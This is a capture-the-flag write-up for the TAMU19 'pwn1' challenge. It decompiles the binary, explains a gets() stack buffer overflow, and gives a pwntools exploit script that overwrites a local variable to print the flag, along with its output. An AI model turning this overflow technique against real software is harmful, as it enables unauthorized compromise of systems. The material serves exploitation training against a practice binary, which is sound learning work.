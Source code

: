 # pwn1 - nightmare

check file type:
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1$ file pwn1 
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

Check file security.
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1$ checksec --file=pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77) Symbols	  No	0		2		pwn1

```
nothing special let reverse the file with ghidra
```c
undefined4 main(undefined param_1)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &param_1;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

we can see that if we want to print the flag we need that loca_18 show be the value `-0x215eef38` so inorder to enter this condition we need to put 
1. Sir Lancelot of Camelot
2. To seek the Holy Grail.

and than do the overflow `gets(local_43);`

local_43 = 43 bytes and local_18  come right after so we need to add \xc8\x10\xa1\xde (little endien)

lets write a script:
```python
#!/usr/bin/env python
from pwn import process, packing

def exploit():
    name = b"Sir Lancelot of Camelot"
    quest = b"To seek the Holy Grail."
    buffer = b'A' * 43 + packing.p32(0xdea110c8)
    prs = process("/home/matan/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1/pwn1")

    prs.sendline(name)
    prs.sendline(quest)
    prs.sendline(buffer)
    prs.interactive()


if __name__ == '__main__':
    exploit()

```

Result:
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1$python /home/matan/Documents/hde65/web_requests/nightmare/tamu_pwn1.py
[+] Starting local process '/home/matan/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1/pwn1': pid 45365
[*] Switching to interactive mode
[*] Process '/home/matan/Documents/hacking/nightmare/stackoverflow/Tamu19_pwn1/pwn1' stopped with exit code 0 (pid 45365)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

```





